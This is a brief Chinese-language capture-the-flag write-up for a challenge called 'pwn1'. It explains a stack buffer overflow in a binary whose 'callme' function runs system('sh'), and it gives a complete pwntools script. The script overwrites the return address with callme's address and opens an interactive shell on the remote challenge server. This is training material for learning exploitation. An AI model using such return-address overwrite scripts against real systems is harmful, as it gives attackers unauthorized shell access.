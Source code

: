 ## pwn1
題目已經說明是stack buffer overflow，nm可以發現一個function叫`callme`，反組譯後發現內容是`system('sh')`，因此利用buffer overflow將return address蓋為`callme`即可。

```python
#!/usr/bin/env python3
from pwn import *
context(arch='amd64')

p = remote('csie.ctf.tw', 10120)
b = ELF('pwn1')

payload = cyclic(40).encode() + p64(b.symbols[b'callme'])
p.sendline(payload)
p.interactive()
```
